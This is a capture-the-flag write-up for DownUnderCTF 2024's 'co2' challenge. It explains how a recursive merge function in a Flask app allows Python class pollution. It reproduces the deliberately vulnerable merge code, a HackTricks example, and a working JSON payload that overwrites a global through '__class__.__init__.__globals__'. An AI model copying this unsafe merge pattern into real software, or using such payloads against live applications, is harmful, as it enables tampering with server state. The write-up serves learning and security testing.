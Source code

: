 ```yaml
---
title: "co2"
description: "A group of students who don't like to do things the \"conventional\" way decided to come up with a CyberSecurity Blog post. You've been hired to perform an in-depth whitebox test on their web application."
pubDate: 2024-07-10
ctf: "DownUnderCTF 2024"
category: "rev"
author: "sealldev"
section: "CTFs"
image: "images/24-downunder/icon.png"
---
```




We are given the source code which is in Python. The website has a few functions involving account registration, profile viewing, blog posts and a dashboard. But one particular function is of interest, the feedback section.

The `/get_flag` endpoint checks a `flag` env variable to get the flag:
```python
@app.route("/get_flag")
@login_required
def get_flag():
    if flag == "true":
        return "DUCTF{NOT_THE_REAL_FLAG}"
    else:
        return "Nope"
```

Looking at the `/save_feedback` endpoints function we can see this:
```python
@app.route("/save_feedback", methods=["POST"])
@login_required
def save_feedback():
    data = json.loads(request.data)
    feedback = Feedback()
    # Because we want to dynamically grab the data and save it attributes we can merge it and it *should* create those attribs for the object.
    merge(data, feedback)
    save_feedback_to_disk(feedback)
    return jsonify({"success": "true"}), 200


...


def merge(src, dst):
    for k, v in src.items():
        if hasattr(dst, '__getitem__'):
            if dst.get(k) and type(v) == dict:
                merge(v, dst.get(k))
            else:
                dst[k] = v
        elif hasattr(dst, k) and type(v) == dict:
            merge(v, getattr(dst, k))
        else:
            setattr(dst, k, v)


def save_feedback_to_disk(feedback_obj):
    feedback = ""
    for attr in dir(feedback_obj):
        if not attr.startswith('__') and not callable(getattr(feedback_obj, attr)):
            feedback += f"{attr}: {getattr(feedback_obj, attr)}\n"
    feedback_dir = 'feedback'
    if not os.path.exists(feedback_dir):
        os.makedirs(feedback_dir)
        print(f"Directory {feedback_dir} created.")
    else:
        print(f"Directory {feedback_dir} already exists.")
    files = glob.glob(os.path.join(feedback_dir, '*'))
    if len(files) >= 5:
        oldest_file = min(files, key=os.path.getctime)
        os.remove(oldest_file)
        print(f"Deleted oldest file: {oldest_file}")
    new_file_name = os.path.join(feedback_dir, f"feedback_{int(time.time())}.txt")
    with open(new_file_name, 'w') as file:
        file.write(feedback)
    print(f"Saved feedback to {new_file_name}")
    return True
```

Reading up on how the merge works, it turns out Python can have Prototype Pollution (I had my suspects from the challenge name also, good hint lads).

I find a [HackTricks Page](https://book.hacktricks.xyz/generic-methodologies-and-resources/python/class-pollution-pythons-prototype-pollution) on the topic (and learn about its absurdity...)

![pythonproto](images/24-downunder/pythonprotomeme.png)

> Credits to [abdulrah33m](https://blog.abdulrah33m.com/prototype-pollution-in-python/) for this excellent image

Reading the "Polluting other glasses and global vars through `globals`" section gives us a good idea of a payload:
```python
def merge(src, dst):
    # Recursive merge function
    for k, v in src.items():
        if hasattr(dst, '__getitem__'):
            if dst.get(k) and type(v) == dict:
                merge(v, dst.get(k))
            else:
                dst[k] = v
        elif hasattr(dst, k) and type(v) == dict:
            merge(v, getattr(dst, k))
        else:
            setattr(dst, k, v)

class User:
    def __init__(self):
        pass

class NotAccessibleClass: pass

not_accessible_variable = 'Hello'

merge({'__class__':{'__init__':{'__globals__':{'not_accessible_variable':'Polluted variable','NotAccessibleClass':{'__qualname__':'PollutedClass'}}}}}, User())

print(not_accessible_variable) #> Polluted variable
print(NotAccessibleClass) #> <class '__main__.PollutedClass'>
```

The normal post request looks like this:
```json
{"title":"title","content":"content","rating":"10","referred":"a"}
```

I then develop our own payload from how the normal post request looks.
```json
{"title":"title","content":"content","rating":"10","referred":"a","__class__": {"__init__":{"__globals__":{"flag":"true"}}}}
```

`/get_flag` now returns the flag, as we have modified the `flag` value to be true.

Flag: `DUCTF{_cl455_p0lluti0n_ftw_}`